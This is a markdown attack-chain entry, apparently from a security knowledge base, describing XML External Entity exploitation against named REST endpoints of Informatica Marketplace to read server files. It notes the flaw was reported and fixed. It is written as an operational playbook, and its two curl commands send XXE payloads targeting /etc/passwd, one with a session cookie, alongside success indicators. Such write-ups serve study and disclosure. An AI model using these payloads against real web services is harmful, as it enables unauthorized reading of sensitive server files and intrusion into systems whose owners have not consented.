

---
tags:
  - xxe
  - xml
  - file-read
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-send-malicious-xml-payload]]'
  - '[[commands/curl-authenticated-post-xml]]'
platforms:
  - Web
  - Linux
complexity: medium
procedures:
  - '[[procedures/Test-XXE-Vulnerability-via-POST-to-Wall-Count-Endpoint]]'
  - '[[procedures/Authenticate-and-Navigate-to-Comment-Section-for-XXE-Testing]]'
  - '[[procedures/Exploit-XXE-in-Comments-Endpoint-for-File-Read]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Multi-stage attack chain exploiting XXE vulnerability in Informatica
  Marketplace to read arbitrary server files
skill_level: intermediate
impact_level: high
id: aa1c2c26-00b7-491e-a463-7591532b465a
created_at: '2025-12-13T09:00:27.508Z'
updated_at: '2025-12-13T09:00:27.508Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# XXE Exploitation for Arbitrary File Read on Informatica Marketplace

Multi-stage attack chain demonstrating the exploitation of an XML External Entity (XXE) vulnerability in the marketplace.informatica.com application, allowing arbitrary file reads on the server. The attack involves sending malicious XML payloads to REST endpoints that process XML without proper restrictions, leading to the inclusion of external entities referencing system files. This chain covers initial testing, authentication, and confirmed exploitation, resulting in potential leakage of sensitive internal files.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Target OS/Platform: Web application on Linux server
- Required services/ports: HTTPS (443), potentially 9001
- Network access requirements: Public access to marketplace.informatica.com REST endpoints

### Initial Access Requirements

- Credential requirements: Valid user account for authentication in Step 2
- Network position: External internet access
- Prior access needed: None for initial test

## Detailed Attack Procedures

### Step 1: Initial XXE Vulnerability Test
procedure: [[procedures/Test-XXE-Vulnerability-via-POST-to-Wall-Count-Endpoint]]

**Objective**: Test for XXE vulnerability by sending a malicious XML payload to the wall count endpoint to attempt arbitrary file read.

**Instructions**: Use [[commands/curl-send-malicious-xml-payload]] to submit the initial POST request with the XML payload:

```bash
curl -X POST https://marketplace.informatica.com/__services/v2/rest/wall/new/count -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd1" >]><foo>&xxe;</foo>'
```

**Expected Output**: Server response showing JAXBException with file path, indicating entity processing and potential file read.

**Success Indicators**:
- JAXBException in response
- Evidence of entity resolution attempting to read the file

### Step 2: Authentication and Navigation
procedure: [[procedures/Authenticate-and-Navigate-to-Comment-Section-for-XXE-Testing]]

**Objective**: Authenticate on the marketplace and navigate to a solution page to prepare for commenting with malicious payload.

**Instructions**: Log in to the marketplace using valid credentials, then navigate to a specific solution page such as https://marketplace.informatica.com/solutions/anaplan_infa_cloud_connector#comment-8225. Intercept the comment submission request and prepare to convert it to a malicious XML payload.

**Expected Output**: Successful authentication and access to the comment section.

**Success Indicators**:
- Logged in session
- Ability to submit comments

### Step 3: Confirmed XXE Exploitation
procedure: [[procedures/Exploit-XXE-in-Comments-Endpoint-for-File-Read]]

**Objective**: Submit an updated malicious XML payload to the comments endpoint to reproduce and confirm the XXE vulnerability for file read.

**Instructions**: Use [[commands/curl-authenticated-post-xml]] to submit the POST request with the XML payload, including authentication headers or cookies from Step 2:

```bash
curl -X POST https://marketplace.informatica.com/__services/v2/rest/comments/1491946873/3248 -H "Content-Type: application/xml" -H "Cookie: session_cookie_here" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd1" >]><foo>&xxe;</foo>'
```

**Expected Output**: Response indicating successful entity processing and potential file content leakage.

**Success Indicators**:
- Confirmation of file read in response
- Reproduction of XXE after initial triage

## Attack Chain Summary

### Key Achievements

1. Successful testing and confirmation of XXE vulnerability
2. Arbitrary file read on the server, leaking sensitive information
3. Vulnerability reported, triaged, and fixed with swag reward

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
